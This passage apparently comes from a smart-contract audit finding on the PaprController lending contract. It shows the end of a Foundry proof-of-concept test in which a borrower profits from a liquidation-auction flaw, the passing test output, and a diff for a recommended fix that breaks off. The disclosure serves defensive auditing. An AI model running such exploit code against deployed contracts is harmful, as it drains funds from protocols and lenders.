 ```solidity
+        controller.purchaseLiquidationAuctionNFT(auction2, price, purchaser, oracleInfo);
+
+        //!! borrower wins
+        uint256 afterBalance = debtToken.balanceOf(borrower);
+        assertEq(afterBalance - beforeBalance, payouts);
+        assertGt(payouts, 2.4e18);
+    }
+
+    function _addCollaterals() internal {
+        vm.startPrank(borrower);
+        nft.setApprovalForAll(address(controller), true);
+        IPaprController.Collateral[] memory c = new IPaprController.Collateral[](2);
+        c[0] = collateral;
+        c[1] = IPaprController.Collateral({id: collateralId+1, addr: nft});
+        controller.addCollateral(c);
+        vm.stopPrank();
+    }
+
+    function _loanMaxAndSell() internal {
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        IPaprController.SwapParams memory swapParams = IPaprController.SwapParams({
+            amount: controller.maxDebt(oraclePrice*2) - 4,
+            minOut: 1,
+            sqrtPriceLimitX96: _maxSqrtPriceLimit({sellingPAPR: true}),
+            swapFeeTo: address(0),
+            swapFeeBips: 0
+        });
+        vm.prank(borrower);
+        controller.increaseDebtAndSell(borrower, collateral.addr, swapParams, oracleInfo);
+    }
+}
```

Test output:
```
Running 1 test for test/paprController/PoC.sol:PoC
[PASS] testPoC() (gas: 720941)
Test result: ok. 1 passed; 0 failed; finished in 1.21s
```

## Tools Used
VS Code

## Recommended Mitigation Steps

The debt shortfall should be recorded and accumulated when the debt is burnt directly. Fill the shortfall first in later liquidation.

Implementation code:
```solidity
diff --git a/src/PaprController.sol b/src/PaprController.sol
index 284b3f4..d7e4cea 100644
--- a/src/PaprController.sol
+++ b/src/PaprController.sol
@@ -61,6 +61,8 @@ contract PaprController is

     /// @dev account => asset => vaultInfo
     mapping(address => mapping(ERC721 => IPaprController.VaultInfo)) private _vaultInfo;
+    /// @dev account => asset => shortfall amount
+    mapping(address => mapping(ERC721 => uint256)) private _shortfall;

     /// @dev does not validate args
     /// e.g. does not check whether underlying or oracleSigner are address(0)
@@ -288,6 +290,8 @@ contract PaprController is
```
